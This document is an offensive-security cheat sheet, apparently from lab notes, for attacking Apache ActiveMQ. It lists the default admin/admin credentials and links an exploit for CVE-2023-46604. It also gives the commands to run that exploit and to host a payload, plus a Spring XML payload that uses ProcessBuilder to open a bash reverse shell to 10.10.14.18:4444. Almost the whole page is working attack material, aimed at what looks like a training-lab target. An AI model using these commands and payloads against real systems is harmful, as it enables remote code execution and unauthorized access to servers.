 ```yaml
---
title: 61616, 61613, 61614, 1883, 8883, 5672, 8161 - Apache ActiveMQ
layout: default
---
```


Default creds
```
admin \ admin
```

[GitHub - pulentoski/CVE-2023-46604: El script explota una vulnerabilidad de deserialización insegura en Apache ActiveMQ (CVE-2023-46604)](https://github.com/pulentoski/CVE-2023-46604)

```bash
python exploit.py -i 10.10.11.243 -u http://10.10.14.18/poc.xml
```

```bash
python3 -m http.server 80
```

```xml
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg>
            <list>
                <value>bash</value>
                <value>-c</value>
                <value>bash -i &gt;&amp; /dev/tcp/10.10.14.18/4444 0&gt;&amp;1</value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
```

